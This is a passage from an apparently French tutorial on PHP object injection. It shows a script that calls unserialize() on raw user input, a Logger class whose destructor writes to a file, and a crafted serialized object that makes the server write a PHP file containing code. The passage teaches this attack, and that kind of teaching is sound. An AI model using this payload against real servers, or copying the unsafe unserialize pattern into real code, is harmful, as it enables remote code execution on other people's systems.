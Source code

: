 Il faut cependant noter que la fonction unserialize() est uniquement capable d'instancier des classes ayant déjà été définies avant son exécution.

Prenons par exemple le code PHP suivant :
<?php 

require('logger.php'); 
require('user.php'); 

$logger = new Logger(); 
$user = unserialize($_GET['user']); 
$logger->addLogEntry('User '. $user->name .' has logged in.'); 

?> 

Le fichier logger.php contenant la définition de la classe Logger suivante :
<?php 

class Logger { 
    private $logFile = 'ca-ts.access.log'; 
    private $logData; 
    
    function addLogEntry($string) { 
        $this->logData .= $string . '\n'; 
    } 
    
    function __destruct() { 
        $f = fopen("logs/" . $this->logFile, "a+"); 
        fwrite($f, $this->logData); 
        fclose($f); 
    } 
} 

?> 

Cette classe stocke les événements journalisés dans une variable nommée $logData, puis les écrit dans un fichier $logFile au moment de la destruction de la classe grâce à la méthode magique __destruct().

Il est donc possible, à partir de la classe Logger, de créer un exploit très simple permettant d'enregistrer un évènement journalisé sous un autre nom et contenant un code PHP arbitraire. Pour ce faire, nous recréons une classe possédant exactement le même nom (Logger) sur notre ordinateur local et réutilisant les variables $logFile et $logData:

<?php 

class Logger { 
    private $logFile = "exploit.php"; 
    private $logData = "<?php phpinfo(); ?>"; 
} 

print("Serialized Logger : " . serialize(new Logger) . "\n"); 

?> 

Nous obtenons donc le résultat suivant :
:6:"Logger":2:{s:15:"LoggerlogFile";s:11:"exploit.php";s:15:"LoggerlogData";s:19:"<?php phpinfo(); ?>";}
